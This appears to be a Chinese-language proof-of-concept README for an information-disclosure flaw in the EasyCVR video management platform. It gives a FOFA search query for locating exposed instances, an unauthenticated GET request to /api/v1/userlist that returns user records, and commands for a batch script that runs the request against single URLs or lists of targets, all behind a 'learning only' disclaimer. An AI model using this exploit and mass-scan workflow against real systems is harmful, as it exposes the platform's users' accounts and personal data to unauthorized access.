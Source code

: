 # EasyCVR 视频管理平台存在用户信息泄露

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa语法

fofa:title="EasyCVR"

POC:

/api/v1/userlist?pageindex=0&pagesize=10



直接GET请求即可

![image-20231219105512392](assets/image-20231219105512392.png)

批量poc(记得安装库)

python poc.py -u 

![image-20231219105617309](assets/image-20231219105617309.png)

python poc.py -f  .txt

![image-20231219105706862](assets/image-20231219105706862.png)